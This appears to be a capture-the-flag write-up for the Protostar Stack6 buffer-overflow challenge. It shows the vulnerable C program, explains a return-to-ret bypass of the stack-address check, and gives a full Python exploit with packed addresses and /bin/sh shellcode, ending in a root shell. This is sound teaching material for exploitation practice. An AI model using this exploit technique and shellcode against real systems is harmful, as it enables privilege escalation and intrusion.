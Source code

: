 Our goal is to solve this explotation challenge <i> [Stack6](https://exploit.education/protostar/stack-six/)</i>


# Code to exploit 
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}


```
## Problem of code
This is a standard buffer overflow challenge but with one difference from the previous one.
The code uses a compiler function called __builtin_return_address which gives us the current
return address of the function and then it checks if the return address starts with 0xbf which is 
the stack. 

So we can't redirect immediately to the stack.

What we will do is "return to the return command its self"

With this technique (return oriented programming) we will pass the check of return address and then the return command will pop
next word from stack and return there.



And then with this python code we will do the final explotation

```c
import struct

#This function generates a string like AAAABBBBCCCC... so that we can find some information -
#when we overflow gets function. Characters like AAAABBBBCCCC have easy to recognise hex values in gdb

def create_overflow_string(size):
        string = ""
        for i in range(size):
                if (i <26):
                        string = string + str(chr(65+i))*4
        return string

RANDOM_STRING_OVERFLOW = False
#RANDOM_STRING_OVERFLOW = True


#Find stack information
if (RANDOM_STRING_OVERFLOW == True ):
        string = create_overflow_string(26)
        print(string)

#Actual exploit
else:
        string = create_overflow_string(26)
        string =  string.split("UUUU")[0]

        EIP = struct.pack("I",0xbffff6e0+32)
        Return = struct.pack ("I",0x080484f9)


#       Copy shellcode from https://shell-storm.org/shellcode/files/shellcode-851.php
        shellcode ="\x90"*100+"\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
        print (string+ Return +EIP+shellcode)


```


Finally we execute like this

https://unix.stackexchange.com/questions/297560/cat-into-stdin-then-pipe-into-program-keeps-forked-shell-open-why

```
user@protostar:~$ cat <(python stack6.py) - | /opt/protostar/bin/stack6^C
user@protostar:~$ cat <(python stack6.py) - | /opt/protostar/bin/stack6
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP�RRRRSSSSTTTT��
whoami
root


```

